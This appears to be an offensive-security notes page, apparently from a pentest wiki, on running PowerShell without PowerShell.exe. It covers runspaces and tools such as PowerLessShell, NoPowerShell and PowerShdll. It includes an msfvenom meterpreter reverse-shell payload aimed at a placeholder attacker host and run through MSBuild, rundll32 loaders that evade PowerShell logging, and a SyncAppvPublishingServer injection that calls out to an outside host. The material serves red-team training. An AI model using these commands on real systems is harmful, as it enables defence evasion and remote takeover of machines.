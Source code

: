 # Powershell Without Powershell.exe

## Theory

PowerShell.exe primarily serves as a graphical interface for handling input and output, while the core functionality resides in the managed DLL[ **System.Management.Automation.dll**](https://learn.microsoft.com/en-us/dotnet/api/system.management.automation?view=powershellsdk-7.4.0). This DLL is responsible for creating and managing **runspaces**, which serve as isolated execution environments for PowerShell commands and scripts.

#### Runspace-Based Execution

Since [runspaces](https://learn.microsoft.com/en-us/powershell/scripting/developer/hosting/creating-runspaces?view=powershell-7.4) operate independently of **PowerShell.exe**, we can create a custom program to establish and control a runspace, allowing us to execute PowerShell code outside the standard PowerShell interface.

#### NoPowerShell: A Lightweight Alternative

Alternatively, projects like [**NoPowerShell**](https://github.com/bitsadmin/nopowershell) provide a way to execute PowerShell-like commands without relying on PowerShell.exe or System.Management.Automation.dll. Instead of creating runspaces, NoPowerShell implements common cmdlets directly in C#.

If you encounter a scenario where **PowerShell.exe is blocked** or [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) is enforced, but no strict application whitelisting is in place, alternative execution methods can still enable PowerShell execution.

## Practice

### Tools&#x20;

{% tabs %}
{% tab title="PowerLessShell" %}
[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

```bash
#Generate a malisious powershell script
v4resk@kali$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

#Generate a .csproj with PowerLessShell
v4resk@kali$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

#Execute it on the target with MSBuild.exe
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
{% endtab %}

{% tab title="NoPowershell" %}
{% hint style="success" %}
NoPowerShell doesn't use`System.Management.Automation.dll` or RunSpaces, only native .NET libraries. **NoPowerShell** **directly implements cmdlet functionality**
{% endhint %}

[NoPowerShell](https://github.com/bitsadmin/nopowershell) is a tool implemented in C# which supports executing PowerShell-like commands while remaining invisible to any PowerShell logging mechanisms.

This .NET Framework 2 compatible binary can be loaded in Cobalt Strike to execute commands in-memory. An alternative usecase for NoPowerShell is to launch it as a DLL via rundll32.exe:&#x20;

```powershell
C:\Users\v4resk> rundll32 NoPowerShell.dll,main
```
{% endtab %}

{% tab title="PowerShdll" %}
We can load [PowerShdll](https://github.com/p3nt4/PowerShdll) with rundll32.exe to gain a shell

```bash
C:\Users\v4resk> rundll32.exe PowerShdll.dll,main
```
{% endtab %}

{% tab title="SyncAppvPublishingServer" %}
Windows 10 comes with SyncAppvPublishingServer.exe and SyncAppvPublishingServer.vbs that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```bash
C:\Users\v4resk> SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
{% endtab %}
{% endtabs %}

#### Custom RunSpace Program

{% tabs %}
{% tab title="C#" %}
Here's a C# code snippet that demonstrates creating a custom PowerShell runspace to execute commands:

{% code title="RunspacePoc.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

class Program
{
    static void Main()
    {
        string command = "Write-Output 'Hello from PowerShell'";

        using (Runspace runspace = RunspaceFactory.CreateRunspace())
        {
            runspace.Open();
            using (PowerShell ps = PowerShell.Create())
            {
                ps.Runspace = runspace;
                ps.AddScript(command);

                foreach (var result in ps.Invoke())
                {
                    Console.WriteLine(result);
                }
            }
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
To include it in your Windows Visual Studio project or compile it on Linux, locate the DLL on Windows systems at:

`C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management`
{% endhint %}

To compile this code on Unix-based systems, we can use the following [mono](https://www.mono-project.com/download/stable/#download-lin) command to include the `System.Management.Automation.dll`:

```bash
mono-csc RunspacePoc.cs -r:System.Management.Automation.dll
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/powershell-without-powershell" %}
